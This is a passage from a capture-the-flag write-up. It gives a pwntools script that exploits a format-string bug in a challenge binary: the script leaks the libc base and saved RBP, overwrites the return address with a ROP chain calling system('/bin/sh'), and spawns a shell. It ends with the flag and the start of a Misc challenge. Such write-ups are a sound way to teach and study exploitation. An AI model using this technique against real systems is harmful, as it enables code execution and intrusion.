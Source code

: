 ```python
def overwrite(address, value):
    i = 0
    while value & 0xFFFF:
        locate_boss(
            fmtstr_payload(
                8,
                {address + 2 * i: value & 0xFFFF},
                write_size="short",
            )
        )
        value >>= 16
        i += 1

# locate_boss(b'%21$lu')
locate_boss(b'%21$llX %16$llX')
leaked = rud(b'\n').split(b' ')
libc.address = int16(leaked[0]) - 0x29d90
assert libc.address & 0xfff == 0
li(f"Libc Address: {hex(libc.address)}")
savedrbp = int16(leaked[1])
li(f"Saved RBP: {hex(savedrbp)}")
retaddr = savedrbp + 0x8
rop = ROP(libc)
rop.call(rop.ret.address)
rop.system(next(libc.search(b"/bin/sh\0")))
li(f"Return Address: {hex(retaddr)}")
li(f"{rop.dump()}")
for i, chunk in enumerate(
    [rop.chain()[i : i + 8] for i in range(0, len(rop.chain()), 8)]
):
    overwrite(retaddr + i * 8, u64(chunk))
sla(b'>> ', b'3')
com()
```

### ![images](https://hackmd.io/_uploads/rJgZ-HH06.png)

Flag: `ENO{WA1T_WHAT_H0W_D1D_Y0U_F1ND_M3???}`

# Misc

## missingcat

> Missing cat \
> Where is my cat? \
> **Author:** @gehaxelt \
> **Connection: 52**.59.124.14:5001\*\* > **Attachment:** chall.py

Given a challenge with the following source:
![images](https://hackmd.io/_uploads/ryOgBxUA6.png)
